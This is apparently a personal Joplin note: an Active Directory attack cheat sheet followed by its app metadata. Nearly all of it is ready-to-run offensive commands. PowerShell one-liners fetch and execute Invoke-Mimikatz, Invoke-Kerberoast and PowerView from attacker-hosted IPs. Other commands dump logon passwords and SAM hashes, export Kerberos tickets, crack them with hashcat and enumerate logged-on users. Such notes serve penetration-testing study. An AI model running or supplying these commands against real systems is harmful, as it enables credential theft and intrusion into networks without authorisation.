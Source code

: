 0. Cheat Sheet

# Remote Mimikatz

powershell -nop "IEX(New-Object System.Net.WebClient).downloadString('http://10.10.14.9:8000/Invoke-Mimikatz.ps1')"

Invoke-Mimikatz -DumpCreds #Dump creds from memory

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

kerberos::list /export

<ins>**NOTE:**</ins>mimikatz latest version doesn't work on 1809 build of windows. Use the older version 'mimikatzold64.exe'

# Remote Kerberoast

## Hashcat method - MUCH FASTER

powershell -ep bypass "IEX(New-Object System.Net.WebClient).downloadString('http://192.168.49.154/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat Hashcat | Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"

klist

\# Send back to kali and run hashcat

hashcat -m 13100 --force -a 0 -o Cracked.txt kerb-Hash0.txt /usr/share/wordlists/rockyou.txt

## Using Invoke-Mimikatz

> Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "kerberos::list /export" "lsadump::sam" "exit"'
> 
> \# Transfer file back to kali
> 
> python3 /usr/share/kerberoast/tgsrepcrack.py /usr/share/wordlists/rockyou.txt &lt;.kirbi file&gt;

# PowerView \[Get Currently logged on usernames\]

Import-Module .\\PowerView.ps1 OR powershell -nop "IEX(New-Object System.Net.WebClient).downloadString('[http://10.10.14.9:8000/PowerView.ps1](http://10.10.14.9:8000/ipw.ps1)')"

Get-NetLoggedon -ComputerName &lt;workstation&gt; # NetWkstaUserEnum - get logged on user list

Get-NetSession -ComputerName &lt;DC&gt; # NetSessionEnum - Get active sessions

## If there are logon users

> \# Obtain Mimikatz console
> 
> sekurlsa::logonpasswords

# All libraries are in ~/ADlibs

id: 47d7422e06d948c0ba7ec81fc6caab6d
parent_id: ac0bd99a1a324cb6a297fd05a2b92039
created_time: 2022-04-20T03:39:15.830Z
updated_time: 2022-05-19T09:26:23.522Z
is_conflict: 0
latitude: 1.30360000
longitude: 103.85540000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-04-20T03:39:15.830Z
user_updated_time: 2022-05-19T09:26:23.522Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1